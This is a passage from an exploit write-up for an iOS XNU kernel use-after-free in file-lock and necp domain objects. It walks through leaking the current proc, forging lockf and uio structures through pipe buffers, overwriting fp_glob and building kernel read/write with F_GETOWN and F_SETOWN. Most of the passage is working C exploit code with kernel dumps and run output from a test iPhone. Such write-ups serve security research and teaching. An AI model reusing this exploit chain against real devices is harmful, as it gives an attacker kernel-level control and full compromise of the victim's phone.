```

The process performed in `kernel_read32_via_pipe_backing` is similar to `kernel_read_pointer_via_socket` and not very different. A kernel read through a socket has the risk that it works correctly only if allocation occurs again at exactly the same address that was freed, while a pipe is more stable because it controls a pipe buffer that always remains in the same place regardless of that. 

The secondary readpipe is controlled through `make_pipe_lockf_payload`, and `lf_start` of fake lockf E is set to 0x3333333333333333 while `lf_end` is set to 0x4444444444444444. To specify the target address to be read, an arbitrary kernel address will be written to the `lf_owner` (+0x58 offset) field of fake ockf E.

Afterward, `ofd_get_lock` references the `lf_owner` value written in fake lockf E and reads a value from a specific kernel address.

```c
#define PIPE_LOCK_PROBE_QUERY_START     ((off_t)0x3333333333333333ULL)
#define LOCK_PROBE_QUERY_LENGTH         ((off_t)5)

void make_pipe_lockf_payload(
    uint8_t payload[NECP_DOMAIN_PAYLOAD_SIZE],
    uint64_t read_address)
{
    const uint64_t marker = 0x2222222222221111ULL;
    const uint64_t fake_proc = read_address - XNU7195_PROC_PID_OFFSET;

    memset(payload, 0, NECP_DOMAIN_PAYLOAD_SIZE);
    memcpy(payload + 0x00, &marker, sizeof(marker));
    memcpy(payload + 0x08, "33333333DDDDDDDDUUUUUUUUffffffffwwwwwwww", 40);

    /* The pipe backing is the fake lock base, so lf_owner is directly +0x58. */
    memcpy(payload + 0x58, &fake_proc, sizeof(fake_proc));
}

int ofd_get_lock(int fd, off_t start, off_t length, struct flock *lock_request)
{    
    *lock_request = (struct flock) {
        .l_start = start,
        .l_len = length,
        .l_pid = 0,
        .l_type = F_WRLCK,
        .l_whence = SEEK_SET,
    };

    return fcntl(fd, F_OFD_GETLK, lock_request);
}

/*
 * After socket0->lf_next is redirected to the pipe backing, reads must use
 * this direct fake lock instead of the now-disconnected socket1 fake lock.
 */
int kernel_read32_via_pipe_backing(int lock_fd, const int pipe_fds[2], uint64_t read_address, uint32_t *value_out)
{
    uint8_t payload[NECP_DOMAIN_PAYLOAD_SIZE];
    struct flock fl;

    if (pipe_fds == NULL || value_out == NULL ||
        read_address < XNU7195_PROC_PID_OFFSET) {
        errno = EINVAL;
        return -1;
    }

    make_pipe_lockf_payload(payload, read_address);

    /* Drain the pipe; the bytes intentionally remain stale in its backing. */
    if (write_exact_fd(pipe_fds[1], payload, sizeof(payload)) != 0 ||
        read_exact_fd(pipe_fds[0], payload, sizeof(payload)) != 0) {
        return -1;
    }

    if (ofd_get_lock(lock_fd, PIPE_LOCK_PROBE_QUERY_START, LOCK_PROBE_QUERY_LENGTH, &fl) != 0) {
        return -1;
    }

    if (fl.l_type == F_UNLCK) {
        errno = ENOENT;
        return -1;
    }

    *value_out = (uint32_t)fl.l_pid;
    return 0;
}
```

The kernel dump shows that fake lockf E is actually controlled by the pipe, with various arbitrary values written to `lf_start`, `lf_end`, `lf_owner`, and so on.

In this image, 0xffffffe4cdaa3c70 is written to `lf_owner`, and when `ofd_get_lock` runs, it will actually try to read a value from 0xffffffe4cdaa3cd8, with +0x68 added.



Therefore, the `lf_id` field value of “lockf F”, 0xffffffe19f7314f0, can be considered leaked.

```c
iPhone-8--1442:~ root# khexdump 0xffffffe4cdaa3cc0
tfp0: 0x1303
get_kbase ret: 0, kbase: 0xfffffff018578000
0xffffffe4cdaa3cc0: 0x0000000000010040 0x0000000000000190
0xffffffe4cdaa3cd0: 0x0000000000000190 0xffffffe19f7314f0 <- READ PONTER IS HERE!!!
0xffffffe4cdaa3ce0: 0xffffffe19ce8ffc0 0xffffffe19ce8fef8
0xffffffe4cdaa3cf0: 0x0000000000000000 0x0000000000000000
0xffffffe4cdaa3d00: 0xffffffe4cdaa3cf8 0x0000000000000000
0xffffffe4cdaa3d10: 0x0000000000000000 0xffffffe19f7314f0
0xffffffe4cdaa3d20: 0x0000000000000000 0x0000000000000000
```

```c
(lldb) p/x offsetof(lockf, lf_id)
(unsigned long) 0x0000000000000018
```

Then what value does `lf_id` actually contain? Tracing backward from `lf_advlock` leads to `VNOP_ADVLOCK`, `sys_fcntl_nocancel` …

When `sys_fcntl_nocancel` calls `VNOP_ADVLOCK`, its second argument is `p`, which is the `selfproc` pointer address. This is because the `[lf_start=400, lf_end=400]` lock was created with `F_SETLK`, not `F_OFD_SETLK`.

```c
// xnu-7195.50.7.100.1/bsd/kern/kern_descrip.c:974
int
sys_fcntl_nocancel(proc_t p, struct fcntl_nocancel_args *uap, int32_t *retval)
{
  //...
  // xnu-7195.50.7.100.1/bsd/kern/kern_descrip.c:1230
  case F_SETLK:
  case F_OFD_SETLK:
    // ...
    // xnu-7195.50.7.100.1/bsd/kern/kern_descrip.c:1280
    switch (uap->cmd) {
    case F_OFD_SETLK:
    case F_OFD_SETLKW:
    case F_OFD_SETLKWTIMEOUT:
      // xnu-7195.50.7.100.1/bsd/kern/kern_descrip.c:1284
      // ...
      break;
    // xnu-7195.50.7.100.1/bsd/kern/kern_descrip.c:1326
    default:
      flg |= F_POSIX;
      switch (fl.l_type) {
      case F_RDLCK:
        if ((fflag & FREAD) == 0) {
          error = EBADF;
          break;
        }
        // XXX UInt32 unsafe for LP64 kernel
        os_atomic_or(&p->p_ladvflag, P_LADVLOCK, relaxed);
        error = VNOP_ADVLOCK(vp, (caddr_t)p,
            F_SETLK, &fl, flg, &context, timeout);
        break;
  //...
}

// xnu-7195.50.7.100.1/bsd/vfs/kpi_vfs.c:5409
errno_t
VNOP_ADVLOCK(struct vnode *vp, caddr_t id, int op, struct flock *fl, int flags, vfs_context_t ctx, struct timespec *timeout)
{
  // ...
  /* Disallow advisory locking on non-seekable vnodes */
  if (vnode_isfifo(vp)) {
    _err = err_advlock(&a);
  } else {
    if ((vp->v_flag & VLOCKLOCAL)) {
      /* Advisory locking done at this layer */
      _err = lf_advlock(&a);

// xnu-7195.50.7.100.1/bsd/kern/kern_lockf.c:190
int
lf_advlock(struct vnop_advlock_args *ap)
{
// ...
// xnu-7195.50.7.100.1/bsd/kern/kern_lockf.c:292
  lock->lf_start = start;
  lock->lf_end = end;
  lock->lf_id = ap->a_id;
// ...
}
```

So far, we have found `selfproc`. 

Next, control the pipe once again to restore the original data, then call set_posix_lock(lock_fd, **`F_UNLCK`**, …) to free the lockf F that was created. 

```c
#define PIPE_DISCOVERY_LOCK_START       ((off_t)400)
#define PIPE_DISCOVERY_LOCK_LENGTH      ((off_t)1)

...
    /* Pipe reads overwrote fake->lf_next; restore it before POSIX F_UNLCK. */
    if (write_exact_fd(pipe_fds[1], saved_payload, sizeof(saved_payload)) != 0)
        return -1;
#if ENABLE_HELPER
    printf("[%s:%d] pipe write occurred\n", __FUNCTION__, __LINE__);
    // getchar();
#endif

    if (set_posix_lock(lock_fd, F_UNLCK, PIPE_DISCOVERY_LOCK_START, PIPE_DISCOVERY_LOCK_LENGTH) != 0)
        return -1;
#if ENABLE_HELPER
    printf("[%s:%d] set_posix_lock occurred\n", __FUNCTION__, __LINE__);
    // getchar();
#endif

    if (read_exact_fd(pipe_fds[0], cleaned_payload, sizeof(cleaned_payload)) != 0)
        return -1;
#if ENABLE_HELPER
    printf("[%s:%d] pipe read occurred\n", __FUNCTION__, __LINE__);
    // getchar();
#endif
...
```

As shown in the execution result, 
in the kernel dump, lockf F was freed from the kernel and its data was filled with 0s.



Afterward, check whether lockf F was properly freed by checking whether it is 0,
then access the fields of the obtained selfproc in sequence to get the `fileproc` address corresponding to `socket_fd[2]`.

The address can be obtained by accessing it in a way similar to the code below.

`filedesc = kernel_read64(PROC + 0xf8);
fd_ofiles = kernel_read64(filedesc);
CFP = kernel_read64(fd_ofiles + control_fd * 8);`

```c
memcpy(&inserted_lock, cleaned_payload + 0x30, sizeof(inserted_lock));
    if (inserted_lock != 0) {
        errno = EFAULT;
        return -1;
    }

    if (discovery_errno != 0) {
        errno = discovery_errno;
        return -1;
    }

    if (kernel_read_pointer_via_pipe_backing(
            lock_fd,
            pipe_fds,
            current_proc + XNU7195_PROC_FD_OFFSET,
            &filedesc) != 0) {
        return -1;
    }
    if (!looks_like_kernel_pointer(filedesc)) {
        errno = EFAULT;
        return -1;
    }

    if (kernel_read_pointer_via_pipe_backing(
            lock_fd, pipe_fds, filedesc, &fd_ofiles) != 0) {
        return -1;
    }
    if (!looks_like_kernel_pointer(fd_ofiles)) {
        errno = EFAULT;
        return -1;
    }

    if (kernel_read_pointer_via_pipe_backing(
            lock_fd,
            pipe_fds,
            fd_ofiles + (uint64_t)control_fd * XNU7195_POINTER_SIZE,
            &control_fileproc) != 0) {
        return -1;
    }
    if (!looks_like_kernel_pointer(control_fileproc)) {
        errno = EFAULT;
        return -1;
    }

    *current_proc_out = current_proc;
    *control_fileproc_out = control_fileproc;
    return 0;
}
```

### 11. Planting a fake kern_iovec in the pipe buffer in advance

The following data is written to fake lockf E, which is controlled by the pipe.

+0x0: The previously obtained fileproc plus +0x10 (+0x10 is the fp_glob offset in fileproc)

`(lldb) p/x offsetof(fileproc, fp_glob)
(unsigned long) 0x0000000000000010`

+0x8: 0x8 (XNU7195_POINTER_SIZE)

```c
#define XNU7195_FILEPROC_GLOB_OFFSET    0x10ULL
#define XNU7195_POINTER_SIZE            8ULL

...

    // 9. Plant a fake kern_iovec in PB in advance
    if (prime_pipe_backing_kern_iovec(
            pipe_fd_2,
            control_fileproc_kptr + XNU7195_FILEPROC_GLOB_OFFSET) != 0) {
        printf("[-] failed to prime PB kern_iovec: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
    
 ...
 
 /* Leave one kernel-space iovec in the empty secondary pipe backing. */
int prime_pipe_backing_kern_iovec(
    const int pipe_fds[2],
    uint64_t target)
{
    uint64_t kern_iovec[2] = {
        target,
        XNU7195_POINTER_SIZE,
    };

    return write_exact_fd(pipe_fds[1], kern_iovec, sizeof(kern_iovec)) != 0 ||
        read_exact_fd(pipe_fds[0], kern_iovec, sizeof(kern_iovec)) != 0
        ? -1 : 0;
}
```

The kernel dump is shown below.



### 12. write64_with_fake_uio / Building kernel R/W

Let us examine parts of the `write64_with_fake_uio` function.

First, configure fake lockf C, which is controlled through socket0, with `lf_start`=30, `lf_end`=34, and `lf_id` set to `lock_fileglob`. 

Here, `lock_fileglob` is `fileglob_kptr`, the kernel address of the `fileglob` pointer that was leaked after creating a file port for `urandom_fd` with `fileport_makeport(urandom_fd, &fileport_name);` at the beginning. In other words, it is the fileglob of urandom_fd.

```c
/*
 * Reclaim the blocked writer's 0x58 uio with socket0, then reverse uiomove()
 * so the stale primary-pipe bytes are copied to the staged kern_iovec.
 */
int write64_with_fake_uio(
    int lock_fd,
    int socket0,
    const int primary_pipe_fds[2],
    void *primary_pipe_buffer,
    size_t primary_pipe_size,
    uint64_t lock_fileglob,
    uint64_t secondary_pipe_backing,
    uint64_t value)
{
    uint64_t fake_lock[NECP_DOMAIN_PAYLOAD_SIZE / sizeof(uint64_t)] = {0};
    //...
    struct fake_uio_writer_context context = {
        .lock_fd = lock_fd,
        .pipe_write_fd = primary_pipe_fds[1],
        .result_errno = 0,
    };
    pthread_t writer;
    uint64_t drained = 0;
    int pthread_status;

    if (primary_pipe_buffer == NULL || primary_pipe_size == 0x0) {
        errno = EINVAL;
        return -1;
    }

    /* Existing dangling lock C becomes [30,34] with the correct OFD id. */
    fake_lock[1] = 30;
    fake_lock[2] = 34;
    fake_lock[3] = lock_fileglob;
    if (clear_necp_domain(socket0) != 0 ||
        allocate_necp_domain(socket0, (const uint8_t *)fake_lock) != 0) {
        return -1;
    }
#if ENABLE_HELPER
    printf("[%s:%d] Existing dangling lock C becomes [30,34] with the correct OFD id ... \n", __FUNCTION__, __LINE__);
    getchar();
#endif

```

Kernel dump result:



Write 0x10000 bytes of data to the primary pipe, with the first 8 bytes containing the kernel address of the secondary pipe's `pipe_buffer.buffer`.

```c
    memset(primary_pipe_buffer, 0, primary_pipe_size);
    memcpy(primary_pipe_buffer, &value, sizeof(value));
    if (write_exact_fd(
            primary_pipe_fds[1],
            primary_pipe_buffer,
            primary_pipe_size) != 0) {
        return -1;
    }
#if ENABLE_HELPER
    printf("[%s:%d] write_exact_fd called ... \n", __FUNCTION__, __LINE__);
    uint64_t primary_pipe_pbuffer_kaddr = obtain_pipes_kaddr(primary_pipe_fds[0]);
    printf("[%s:%d] primary_pipe_pbuffer_kaddr = 0x%llX\n", __FUNCTION__, __LINE__, primary_pipe_pbuffer_kaddr);
    getchar();
#endif
```

Execution result / kernel dump result:

```c
[RUNNING RESULT]
[STAGE3] i=31 name=0x5003 port=0xFFFFFFE19F828888 ikmq_base=0xFFFFFFE19F828888 receiver_name=0x9F828888 msgcount=0 qlimit=0x400 qcontext=0x0 receiver=0xFFFFFFE19E63E5F8
[i] Leaked readpipe_ipc_port kptr = 0xFFFFFFE19D066AA8
[STAGE 5] did allocated necp domain well?
[STAGE 5] domain_kaddr = 0xFFFFFFE4CDF525E0
[prepare_socket_lockf_pair:484] socket1_domain_kaddr = 0xFFFFFFE4CDF31680
[prepare_socket_lockf_pair:527] Free B ...
[0xffffffe4cdf525e0+0x000] 11 11 22 22 22 22 22 22  33 33 33 33 33 33 33 33  |  ..""""""33333333
[0xffffffe4cdf525e0+0x010] 44 44 44 44 44 44 44 44  55 55 55 55 55 55 55 55  |  DDDDDDDDUUUUUUUU
[0xffffffe4cdf525e0+0x020] 66 66 66 66 66 66 66 66  77 77 77 77 77 77 77 77  |  ffffffffwwwwwwww
[0xffffffe4cdf525e0+0x030] C0 E4 F7 CD E4 FF FF FF  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdf525e0+0x040] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[0xffffffe4cdf525e0+0x050] 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |  ................
[prepare_socket_lockf_pair:535] allocated/wrote arbitrary data to B again, dangling C again ...
[i] socket1 DOMAIN kernel address = 0xFFFFFFE4CDF31680
[main:1560]
[i] read32(0xFFFFFFE19D066B10) = 0xA03C9380
[i] reconstructed readpipe fileglob kptr = 0xFFFFFFE1A03C9380
[main:1582]
[main:1583] first called kernel_read32_via_proc_pid ...
[i] secondary pipe object = 0xFFFFFFE19BFCBDF0
[i] secondary pipe backing = 0xFFFFFFE4CE280A00 <- !REMIND THIS VALUE!
[main:1637] install_socket0_pipe_link called ...
[find_current_proc_and_control_fileproc:796] pipe write occurred
[find_current_proc_and_control_fileproc:803] set_posix_lock occurred
[find_current_proc_and_control_fileproc:810] pipe read occurred
[kernel_read32_via_pipe_backing:724] called ...
[kernel_read32_via_pipe_backing:724] called ...
[find_current_proc_and_control_fileproc:831] pipe write occurred
[find_current_proc_and_control_fileproc:838] set_posix_lock occurred
[find_current_proc_and_control_fileproc:845] pipe read occurred
[kernel_read32_via_pipe_backing:724] called ...
[kernel_read32_via_pipe_backing:724] called ...
[kernel_read32_via_pipe_backing:724] called ...
[kernel_read32_via_pipe_backing:724] called ...
[kernel_read32_via_pipe_backing:724] called ...
[kernel_read32_via_pipe_backing:724] called ...
[i] current proc = 0xFFFFFFE19FB529E0
[i] control fd=5 fileproc = 0xFFFFFFE1A00A63E0
stage9 done
[write64_with_fake_uio:1052] Existing dangling lock C becomes [30,34] with the correct OFD id ...

[write64_with_fake_uio:1065] write_exact_fd called ...
[write64_with_fake_uio:1067] primary_pipe_pbuffer_kaddr = 0xFFFFFFE800728000
...

[KERNEL DUMP RESULT]
iPhone-8--1442:~ root# khexdump 0xFFFFFFE800728000
tfp0: 0x903
get_kbase ret: 0, kbase: 0xfffffff01d5b4000
0xffffffe800728000: 0xffffffe4ce280a00 <- !SECONDARY PIPE's pipe_buffer.buffer kaddr WRITTEN! 0x0000000000000000
0xffffffe800728010: 0x0000000000000000 0x0000000000000000
0xffffffe800728020: 0x0000000000000000 0x0000000000000000
0xffffffe800728030: 0x0000000000000000 0x0000000000000000
0xffffffe800728040: 0x0000000000000000 0x0000000000000000
0xffffffe800728050: 0x0000000000000000 0x0000000000000000
0xffffffe800728060: 0x0000000000000000 0x0000000000000000
0xffffffe800728070: 0x0000000000000000 0x0000000000000000
0xffffffe800728080: 0x0000000000000000 0x0000000000000000
0xffffffe800728090: 0x0000000000000000 0x0000000000000000
0xffffffe8007280a0: 0x0000000000000000 0x0000000000000000
0xffffffe8007280b0: 0x0000000000000000 0x0000000000000000
0xffffffe8007280c0: 0x0000000000000000 0x0000000000000000
0xffffffe8007280d0: 0x0000000000000000 0x0000000000000000
0xffffffe8007280e0: 0x0000000000000000 0x0000000000000000
0xffffffe8007280f0: 0x0000000000000000 0x0000000000000000
iPhone-8--1442:~ root# khexdump 0xffffffe4ce280a00
tfp0: 0x1303
get_kbase ret: 0, kbase: 0xfffffff01d5b4000
0xffffffe4ce280a00: 0xffffffe1a00a63f0 0x0000000000000008
0xffffffe4ce280a10: 0x4444444444444444 0x5555555555555555
0xffffffe4ce280a20: 0x6666666666666666 0x7777777777777777
0xffffffe4ce280a30: 0x0000000000000000 0x0000000000000000
0xffffffe4ce280a40: 0x0000000000000000 0x0000000000000000
0xffffffe4ce280a50: 0x0000000000000000 0xffffffe4cce572c4
```

Call `fake_uio_writer_thread` asynchronously with `pthread_create`.

When `ofd_set_lock(context->lock_fd, F_RDLCK, 29, 7)` runs, “fake lockf C” is freed. This is because the range of the newly assigned lockf is lf_start=29, lf_end=35, while “fake lockf C” has lf_start=30, lf_end=34; when compared, the new lockf range contains the range of “fake lockf C”.

After it is freed, `writev(context->pipe_write_fd, iovecs, 2)` (with the primary pipe_write_fd passed as an argument) runs and will reoccupy the area that was just freed. The uio structure size is 0x38 and the kern_iovec structure size is 0x10…. As a result, a total kernel allocation size of 0x38+0x10*2=0x58 will be allocated from the default.kalloc.96 zone, and the just-freed socket0 DOMAIN slot is reoccupied by `struct uio + iovec * 2`.

```c
 struct fake_uio_writer_context {
    int lock_fd;
    int pipe_write_fd;
    _Atomic int entering_writev;
    int result_errno;
};

void *fake_uio_writer_thread(void *opaque)
{
    struct fake_uio_writer_context *context = opaque;
    uint64_t valid_source[2] = {0};
    struct iovec iovecs[2] = {
        { .iov_base = valid_source, .iov_len = sizeof(valid_source) },
        { .iov_base = NULL, .iov_len = 0 },
    };

    if (ofd_set_lock(context->lock_fd, F_RDLCK, 29, 7) != 0) {
        context->result_errno = errno != 0 ? errno : EIO;
        atomic_store_explicit(
            &context->entering_writev, -1, memory_order_release);
        return NULL;
    }

    /* Two iovecs make UIO_SIZEOF(2) == 0x58, allocated from the 0x60 slot. */
    atomic_store_explicit(
        &context->entering_writev, 1, memory_order_release);
    if (writev(context->pipe_write_fd, iovecs, 2) < 0) {
        context->result_errno = errno != 0 ? errno : EIO;
    }
    return NULL;
}

...
    struct fake_uio_writer_context context = {
        .lock_fd = lock_fd,
        .pipe_write_fd = primary_pipe_fds[1],
        .result_errno = 0,
    };
...
 
    atomic_init(&context.entering_writev, 0);
    pthread_status = pthread_create(&writer, NULL, fake_uio_writer_thread, &context);
    if (pthread_status != 0) {
        errno = pthread_status;
        return -1;
    }
```

Internally, `writev` passes through the following kernel functions.

```c
writev()
 → writev_prwritev_uio()
 → uio_create(2)
 → kalloc(UIO_SIZEOF(2))
```



The kernel dump result is shown below.

Here, the newly created lockf object will be called “lockf G”. 

As shown, the freed “fake lockf C” address is now made up of uio + kern_iovec*2. It cannot yet be considered controlled and should be viewed as real uio data rather than fake data.



The `wait_for_fake_uio_writer` function appears to be a synchronization function that waits for the moment when the writer has allocated a normal uio in the kernel and then sleeps while still holding that uio because the pipe is full. It gets the pthread's Mach thread port with `pthread_mach_thread_np(thread)` and repeatedly checks the `entering_writev` state. 

If the state is `1`, it checks the writer's execution state with `thread_info(..., THREAD_BASIC_INFO, ...)`, and it succeeds when `run_state == TH_STATE_WAITING`.

While waiting, it yields the CPU with `thread_switch(..., SWITCH_OPTION_DEPRESS, ...)` so that the writer can proceed first.

If it waits too long, it returns `ETIMEDOUT`.

```c
int wait_for_fake_uio_writer(
    pthread_t thread,
    const struct fake_uio_writer_context *context)
{
    thread_t mach_thread = pthread_mach_thread_np(thread);

    for (unsigned int attempt = 0; attempt < 1000000; attempt++) {
        int phase = atomic_load_explicit(
            &context->entering_writev, memory_order_acquire);

        if (phase < 0) {
            errno = context->result_errno;
            return -1;
        }
        if (phase > 0) {
            thread_basic_info_data_t info = {0};
            mach_msg_type_number_t count = THREAD_BASIC_INFO_COUNT;

            if (thread_info(
                    mach_thread,
                    THREAD_BASIC_INFO,
                    (thread_info_t)&info,
                    &count) != KERN_SUCCESS) {
                errno = EIO;
                return -1;
            }
            if (info.run_state == TH_STATE_WAITING) {
                return 0;
            }
        }
        (void)thread_switch(MACH_PORT_NULL, SWITCH_OPTION_DEPRESS, 0);
    }

    errno = ETIMEDOUT;
    return -1;
}

...
    if (wait_for_fake_uio_writer(writer, &context) != 0) {
        int saved_errno = errno;
        uint8_t ordinary_drain[16];

        /* No uio was freed yet; wake an ordinary blocked writer and join it. */
        (void)read_exact_fd(
            primary_pipe_fds[0], ordinary_drain, sizeof(ordinary_drain));
        (void)pthread_join(writer, NULL);
        errno = saved_errno;
        return -1;
    }
```

The `clear_necp_domain(socket0)` code frees fake lockf C, which was controlled through socket0, 

but in practice, it frees again the area where `struct uio + iovec * 2` reoccupied the just-freed socket0 DOMAIN slot.

It reallocates the freed area as an necp domain and overwrites it with fake_uio data.

```c
    uint64_t fake_uio[NECP_DOMAIN_PAYLOAD_SIZE / sizeof(uint64_t)] = {
        secondary_pipe_backing,       /* uio_iovs.kiovp */
        1,                            /* uio_iovcnt */
        0,                            /* uio_offset */
        2,                            /* UIO_SYSSPACE | UIO_READ<<32 */
        XNU7195_POINTER_SIZE,         /* uio_resid_64 */
        0x0000000100000058ULL,        /* size=0x58, max_iovs=1 */
        1,                            /* INITED; deliberately not WE_ALLOCED */
    };
    
...

#if ENABLE_HELPER
    printf("[%s:%d] wait_for_fake_uio_writer passed ... \n", __FUNCTION__, __LINE__);
    getchar();
#endif

    /* socket0 still owns the now-live uio allocation: free and reclaim it. */
    if (clear_necp_domain(socket0) != 0)
        return -1;
    
    if (allocate_necp_domain(socket0, (const uint8_t *)fake_uio) != 0)
        return -1;

#if ENABLE_HELPER
    printf("[%s:%d] clear_necp_domain / allocate_necp_domain called ... \n", __FUNCTION__, __LINE__);
    getchar();
#endif
```

Looking at the kernel dump image, 

the address space initially contained “fake lockf C” and was then freed,

then it was reallocated and became an area containing a real uio, but it was freed again. 

As a result, it is reallocated as an necp domain and contains a controlled fake uio. Several fields of the uio structure can be seen under control, including the secondary pipe's pipebuffer.buffer address.



Finally, read 8 bytes from the read file descriptor in primary_pipe_fds, then use `pthread_join` to wait until the asynchronously running function finishes.

The reason 8 bytes must be read from the pipe, as in `read_exact_fd(..., 8)`, is to create 8 bytes of space in the full pipe and wake the sleeping writer, providing the trigger that actually executes the fake UIO.

Without this code, `pthread_join(writer, NULL)` waits forever.

```c
    /* Open exactly eight bytes of space and wake pipe_write()/uiomove(). */
    if (read_exact_fd(
            primary_pipe_fds[0], &drained, sizeof(drained)) != 0) {
        return -1;
    }
#if ENABLE_HELPER
    printf("[%s:%d] read_exact_fd called ... \n", __FUNCTION__, __LINE__);
    // getchar();
#endif
    pthread_status = pthread_join(writer, NULL);
    if (pthread_status != 0) {
        errno = pthread_status;
        return -1;
    }
    if (context.result_errno != 0) {
        errno = context.result_errno;
        return -1;
    }

    return 0;
}
```


Then why was it necessary to create the fake uio?

Originally, it would have had the following structure.

```c
fd table
  └─ control_fd
       └─ real fileproc
            └─ fp_glob
                 └─ real socket fileglob
                      ├─ fg_ops  → real socketops
                      └─ fg_data → real socket
```

However, after the `write64_with_fake_uio` function finishes, it looks like this:

Interestingly, fp_glob now points to the pipe buffer. 

```c
fd table
  └─ control_fd
       └─ real fileproc
            └─ fp_glob ─────────► PB (secondary pipe_buffer.buffer)
                                    └─ fake fileglob
```

In fact, another reason 8 bytes had to be read from the pipe, as in `read_exact_fd(..., 8)`, is the `uiomove` call.

When examining the `prime_pipe_backing_kern_iovec` function, do you remember the process of planting a fake kern_iovec in the secondary pipe buffer in advance? 

```c
/* Leave one kernel-space iovec in the empty secondary pipe backing. */
int prime_pipe_backing_kern_iovec(
    const int pipe_fds[2],
    uint64_t target)
{
    uint64_t kern_iovec[2] = {
        target,
        XNU7195_POINTER_SIZE,
    };

    return write_exact_fd(pipe_fds[1], kern_iovec, sizeof(kern_iovec)) != 0 ||
        read_exact_fd(pipe_fds[0], kern_iovec, sizeof(kern_iovec)) != 0
        ? -1 : 0;
}

...

    // 9. Plant a fake kern_iovec in PB in advance
    if (prime_pipe_backing_kern_iovec(
            pipe_fd_2,
            control_fileproc_kptr + XNU7195_FILEPROC_GLOB_OFFSET) != 0) {
        printf("[-] failed to prime PB kern_iovec: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
...
```

This fake kern_iovec was essential for making fp_glob point to the pipe buffer. 

The following is an explanation and path diagram showing how `copywithin` in `uiomove64` overwrites fp_glob with the secondary pipe’s pipe_buffer.buffer. The fake uio was needed to enter **case 5 in the diagram**, which explains why it was necessary.



### 13. Testing stable kernel r/w with fcntl(…, F_GETOWN), fcntl(…, F_SETOWN)

Let us examine the code one piece at a time. 

Test whether a value can be read from the secondary pipe's pipe_buffer.buffer kernel address + 0x200.

```c
int stage_pipe_backing_fileglob(
    const int pipe_fds[2],
    uint64_t pipe_backing,
    uint64_t target,
    bool active_socket)
{
    uint64_t payload[PB_FAKE_FILEGLOB_SIZE / sizeof(uint64_t)] = {0};
    uint8_t observed[PB_FAKE_FILEGLOB_SIZE];

    if (active_socket && target < XNU7195_SOCKET_PGID_OFFSET) {
        errno = EINVAL;
        return -1;
    }

    payload[2] = 0x0000006300000003ULL; /* fg_flag=3, fg_count=0x63 */
    payload[5] = pipe_backing + 0x60;   /* fileglob::fg_ops */
    payload[7] = active_socket ? target - XNU7195_SOCKET_PGID_OFFSET : 0;
    ((uint8_t *)payload)[0x53] = 0x22; /* lck_mtx type */
    payload[12] = active_socket ? 2 : 3; /* DTYPE_SOCKET or parking type */

    if (write_exact_fd(pipe_fds[1], payload, sizeof(payload)) != 0 ||
        read_exact_fd(pipe_fds[0], observed, sizeof(observed)) != 0) {
        return -1;
    }
    if (memcmp(payload, observed, sizeof(payload)) != 0) {
        errno = EIO;
        return -1;
    }
    return 0;
}

int kernel_read32_via_fgetown(
    const int pipe_fds[2],
    uint64_t pipe_backing,
    int control_fd,
    uint64_t target,
    uint32_t *value_out)
{
    int value;
    int operation_errno;
    bool operation_failed;

    if (value_out == NULL ||
        stage_pipe_backing_fileglob(
            pipe_fds, pipe_backing, target, true) != 0) {
        return -1;
    }
#if ENABLE_HELPER
    printf("[%s:%d] stage_pipe_backing_fileglob 1/2 called \n", __FUNCTION__, __LINE__);
    getchar();
#endif 

    errno = 0;
    value = fcntl(control_fd, F_GETOWN);
    operation_errno = errno;
    operation_failed = value == -1 && operation_errno != 0;

    if (stage_pipe_backing_fileglob(
            pipe_fds, pipe_backing, 0, false) != 0) {
        return -1;
    }
#if ENABLE_HELPER
    printf("[%s:%d] stage_pipe_backing_fileglob 2/2 called \n", __FUNCTION__, __LINE__);
    getchar();
#endif 

    if (operation_failed) {
        errno = operation_errno;
        return -1;
    }

    *value_out = (uint32_t)value;
    return 0;
}

...
    uint64_t test_address = secondary_pipe_backing_kptr + 0x200;
    uint32_t original = 0;
    uint32_t marker = 0;
    uint32_t observed = 0;
    int verify_error = 0;

    if (kernel_read32_via_fgetown(
            pipe_fd_2, secondary_pipe_backing_kptr, socket_fd[2],
            test_address, &original) != 0) {
        printf("[-] kread32 failed: %s(%d)\n", strerror(errno), errno);
        return -1;
    }
```

Because the fake fileglob can be freely controlled through the secondary pipe buffer, 

if the +0x38 offset, which is fg_data, is properly controlled (the socket->so_pgid offset is 0x60, so that value must be subtracted), the kernel address to be read can be specified.



The kernel write test is performed internally with `fcntl(…, F_SETOWN)`.

```c
int kernel_write32_via_fsetown(
    const int pipe_fds[2],
    uint64_t pipe_backing,
    int control_fd,
    uint64_t target,
    uint32_t value)
{
    int operation_status;
    int operation_errno;

    if (stage_pipe_backing_fileglob(
            pipe_fds, pipe_backing, target, true) != 0) {
        return -1;
    }

    operation_status = fcntl(control_fd, F_SETOWN, (int)value);
    operation_errno = errno;

    if (stage_pipe_backing_fileglob(
            pipe_fds, pipe_backing, 0, false) != 0) {
        return -1;
    }
    if (operation_status != 0) {
        errno = operation_errno;
        return -1;
    }

    return 0;
}

...

    marker = 0x13371337;
    if (kernel_write32_via_fsetown(
            pipe_fd_2, secondary_pipe_backing_kptr, socket_fd[2],
            test_address, marker) != 0) {
        printf("[-] kwrite32 failed: %s(%d)\n", strerror(errno), errno);
        return -1;
    }
    
...
```

The kernel calls made internally are almost the same as those for the kernel read, 
so the detailed explanation of `fcntl(…, F_SETOWN)` is omitted in favor of the diagram below.



### 14. Clean up

Release all locks with `ofd_set_lock`, close the allocated socket and pipe descriptors, and deallocate the mach ports as well.

```c

    // 13. Cleanup immediately after success
    if (ofd_set_lock(
            urandom_fd, F_UNLCK, 0, (off_t)INT64_MAX) != 0) {
        printf("[-] final OFD unlock failed: %s(%d)\n",
            strerror(errno), errno);
        return -1;
    }
    close(urandom_fd);

    close(socket_fd[0]);
    close(socket_fd[1]);

    close(pipe_fd[0]);
    close(pipe_fd[1]);

    /* control->fp_glob points into PB, so drop control before PB's pipes. */
    close(socket_fd[2]);
    close(pipe_fd_2[1]);
    close(pipe_fd_2[0]);

    if (MACH_PORT_VALID(fileport_name)) {
        mach_port_deallocate(mach_task_self(), fileport_name);
    }
    if (MACH_PORT_VALID(fileport_readpipe)) {
        mach_port_deallocate(mach_task_self(), fileport_readpipe);
    }
    if (MACH_PORT_VALID(reply_port)) {
        mach_port_mod_refs(
